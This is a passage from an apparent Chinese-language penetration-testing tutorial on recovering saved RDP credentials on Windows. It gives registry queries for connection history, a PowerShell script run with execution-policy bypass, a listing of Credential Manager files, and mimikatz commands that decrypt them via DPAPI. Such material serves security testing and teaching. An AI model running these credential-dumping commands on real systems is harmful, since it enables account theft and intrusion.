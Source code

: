![Windows凭据管理器.png](assets/1698895465-14b3bfe2e010bbaeed123071d4d7dea1.png)

以 RDP 举例。其实也没必要，毕竟只要能解密，就都能查，只是不知道这个账户是哪个应用在使用。

查询连接记录。

```plaintext
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s
```

或者用 [List-RDP-Connections-History](https://github.com/3gstudent/List-RDP-Connections-History) 脚本获取 RDP 连接记录。

```powershell
powershell -exec bypass -f ListAllUsers.ps1
```

查询 RDP 凭证文件。

```plaintext
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
```

使用 mimitakz 解密 MasterKey，从解密结果中 guidMasterKey 的值，确认是真实凭证加密密钥。

```plaintext
.\mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Users\<UserName>\AppData\Local\Microsoft\Credentials\<CredentialFileName>" "sekurlsa::dpapi" "exit"
```
